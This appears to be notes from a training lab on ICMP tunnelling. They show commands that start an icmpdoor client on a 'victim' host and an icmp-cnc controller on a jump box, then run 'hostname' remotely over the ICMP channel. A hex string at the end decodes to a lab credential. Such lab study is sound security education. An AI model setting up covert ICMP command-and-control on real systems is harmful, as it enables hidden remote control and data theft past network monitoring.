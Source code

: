 
We have prepared the tools needed for C2 communication over the ICMP protocol on JumpBox and the ICMP-Host machines. First, we need to log in to the ICMP machine,`icmp.thm.com`, and execute the `icmpdoor` binary as follows,

*Run the icmpdoor command on the ICMP-Host Machine:*
```bash
thm@icmp-host:~$ sudo icmpdoor -i eth0 -d 192.168.0.133
```

Note that we specify the interface to communicate over and the destination IP of the server-side.

Next, log in to the JumpBox and execute the `icmp-cnc` binary to communicate with the victim, our ICMP-Host. Once the execution runs correctly, a communication channel is established over the ICMP protocol. Now we are ready to send the command that needs to be executed on the victim machine. 

*The data that needs to be transferred:*
```
thm@jump-box$  sudo icmp-cnc -i eth1 -d 192.168.0.121
shell: hostname
hostname
shell: icmp-host
```
Similar to the client-side binary, ensure to select the interface for the communication as well as the destination IP. As the previous terminal shows, we requested to execute the `hostname` command, and we received `icmp-host`.

To confirm that all communications go through the ICMP protocol, we capture the network traffic during the communication using tcpdump as the following:

*Capture ICMP traffic using tcpdump:*
<img width="787" height="225" alt="image" src="https://github.com/user-attachments/assets/1406022d-cbb3-4552-ad58-bb1dd2ca5eab" />

4a54543a70617373776f72640a
